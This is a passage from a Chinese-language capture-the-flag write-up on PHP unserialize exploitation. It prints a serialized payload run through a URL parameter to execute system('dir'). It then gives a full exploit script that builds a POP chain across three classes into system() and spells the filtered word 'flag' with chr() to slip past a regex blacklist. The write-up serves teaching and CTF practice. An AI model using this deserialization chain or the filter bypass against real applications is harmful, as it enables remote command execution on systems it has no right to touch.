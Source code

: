 ```php
url?data=O:7:"Welcome":2:{s:4:"name";s:13:"A_G00d_H4ck3r";s:3:"arg";O:6:"H4ck3r":1:{s:4:"func";O:4:"G00d":2:{s:5:"shell";s:6:"system";s:3:"cmd";s:3:"dir";}}}
```

url就是网址链接，?就是拼接的意思，=给参数data传参

上传payload

回显结果：

发现flag文件不在此目录，猜测在根目录下

**继续构造exp**

这里就要用到上面讲到的**ASCII码chr()对应表**了

```php
//查看flag文件内容的exp
<?php
  error_reporting(0);
class Welcome{
  public $name='A_G00d_H4ck3r';
  public $arg = 'welcome';
  public function __construct(){
    $this->name = 'A_G00d_H4ck3r';
  }
  public function __destruct(){
    if($this->name == 'A_G00d_H4ck3r'){
      echo $this->arg;
    }
  }
}
class G00d{
  public $shell='system';          //外部命令执行函数
  public $cmd='cd /;more `php -r "echo chr(102).chr(49).chr(97).chr(103);"`';
  public function __invoke(){
    $shell = $this->shell;
    $cmd = $this->cmd;
    if(preg_match('/f|l|a|g|\*|\?/i', $cmd)){  //正则匹配表达式
      die("U R A BAD GUY");
    }
    eval($shell($cmd));
  }
}
class H4ck3r{
  public $func;
}
$A=new Welcome();        //实例化
$B=new G00d();           //实例化
$C=new H4ck3r();         //实例化
$A->arg=$C;              //pop攻击链
$C->func=$B;            //pop攻击链
echo serialize($A);     //序列化对象
?>
```
